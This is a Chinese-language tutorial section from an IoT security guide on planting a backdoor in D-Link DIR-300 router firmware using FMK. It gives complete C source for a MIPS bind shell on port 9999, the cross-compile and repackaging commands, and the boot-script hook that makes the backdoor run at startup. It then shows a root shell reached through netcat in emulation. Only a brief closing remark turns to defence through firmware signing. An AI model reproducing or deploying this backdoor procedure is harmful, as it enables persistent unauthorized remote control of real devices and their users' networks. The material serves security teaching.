






## 3.9 利用FMK在固件中植入后门（FMK）

利用的时候有用的技术之一是能够修改固件。这可以通过：从固件中提取文件系统，修改内容，然后重打包成新固件。然后将新固件刷到设备上。

### 3.9.1 Getting ready

为了修改固件，我们将会使用Jeremy Collake和Craig Heffner编写的工具FMK.FMK利用Binwalk和其他工具从固件中提取文件系统，也提供了重打包修改的文件系统成新固件的功能。

FMK可以从[]()下载，或者如果你克隆了FAT工具，它就已经在你的系统中了。一旦你下载好它，我们就需要尝试的固件。为了让过程简单，并让读者在不需要购买设备的情况下重复下述步骤，我们将会使用利用FAT能够仿真的固件。

### 3.9.2 How to do it...

下面是步骤：

<br>&emsp;&emsp;&emsp;1. 本案例中使用的固件是D-Link DIR-300路由器。为了从固件中提取文件系统，我们将会使用FMK中的`extract-firmware.sh`脚本，而不是Binwalk。如下所示：

```java
./extract-firmware.sh Dlink-firmware.bin
```



提取到文件系统后，它包含一个新目录，里面包含文件夹：`rootfs, image_parts, logs`。对于我们的植入后门和修改目的，我们只关注`rootfs`文件夹。

`rootfs`文件夹包含了固件文件系统的全部内容。我们要做的就是为固件架构创建后门，然后找到个方法让固件启动后自动执行后门。

<br>&emsp;&emsp;&emsp;2. 让我们先找到固件是支持什么架构。我们可以通过在任意固件二进制上执行`readelf`指令来完成，例如BusyBox，如下图所示：



<br>&emsp;&emsp;&emsp;3. 正如我们从上述截图中看到的，这是一个MIPS小端架构，这意味着我们需要创建一个支持MIPS小端格式的后门。下面是我们即将使用的后门，是Osanda Malith编写的：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#define SERVER_PORT 9999
/* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
* Bind Shell using Fork for my TP-Link mr3020 router running
busybox
* Arch : MIPS
* mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -
march=24kc
*/
int main() {
    int serverfd, clientfd, server_pid, i = 0;
    char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
    char *args[] = { "/bin/busybox", "sh", (char *) 0 };
    struct sockaddr_in server, client;
    socklen_t len;
    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    server.sin_addr.s_addr = INADDR_ANY;
    serverfd = socket(AF_INET, SOCK_STREAM, 0);
    bind(serverfd, (struct sockaddr *)&server, sizeof(server));
    listen(serverfd, 1);
    while (1) {
        len = sizeof(struct sockaddr);
        clientfd = accept(serverfd, (struct sockaddr *)&client,
        &len);
        server_pid = fork();
        if (server_pid) {
            write(clientfd, banner, strlen(banner));
            for(; i <3 /*u*/; i++) dup2(clientfd, i);
            execve("/bin/busybox", args, (char *) 0);
            close(clientfd);
        } close(clientfd);
    } return 0;
}
```

一旦我们有了代码，我们可以使用MIPSEL的Buildroot，并使用跨平台的编译工具Buildroot编译它。我们不会深入Buildroot设置，由于它的过程是很直接的，且已经在文档中有了。

<br>&emsp;&emsp;&emsp;4. 创建了MIPSEL的跨平台编译器后，我们可以编译`bindshell.c`到`bindshell`，这可以替换被提取出的文件系统中的文件。

```java
./mipsel-buildroot-linux-uclibc--gcc bindshell.c -static -o bindshell
```

下一步是我们可以在文件系统的什么位置替换它和如何使它在引导的时候自动启动。这可能可以通过引导时自动执行的脚本完成。

<br>&emsp;&emsp;&emsp;5. 根据查看文件系统，我们可以在`etc/templates/`添加二进制,可以在`etc/scripts`位置中的`system.sh`脚本中引用它。如下图所示：
 
 

<br>&emsp;&emsp;&emsp;6. 现在，我们继续， 并使用`build-firmware.sh`脚本基于上述修改构建新的固件。如下图所示：
 
 

 完成构建过程时，它将会创建新固件，并放在`firmware-name`位置，名称为`new-firmware.bin`。


<br>&emsp;&emsp;&emsp;7. 有了新镜像后，我们可以将其拷贝：FAT目录下，并仿真验证我们添加的后面是否在运行。这可以通过之前讲过的仿真步骤来完成。如下图所示：



正如我们在上图中看到的，它给了我们一个可以访问的IP：`192.168.0.1`。但是更有趣的是，让我们来看看我们在固件中防止的后门binshell有没有被执行。

<br>&emsp;&emsp;&emsp;8. 让我们在前面的IP和端口9999运行一个Netcat，并查看其是否工作：



现在，我们有了一个设备上的完整root shell，因为之前我们在固件中放置的后门执行了。从这里开始，我们可以修改其他的设备配置或者简单地用它来远程访问运行我们修改过固件的设备。

### 3.9.3 How it works...

修改固件的能力对攻击者是极其重要和有用的。这使得攻击者绕过保护机制，删除安全特性，或者更多。由于像FMK这样的工具，攻击者可以极其轻松地添加他们的恶意软件或者后门到任意的设备固件，这会被地球上的任意位置的用户使用。

这就是为什么签名和校验和验证固件对于防止由于恶意软件或修改固件而引起的攻击非常重要的原因之一。
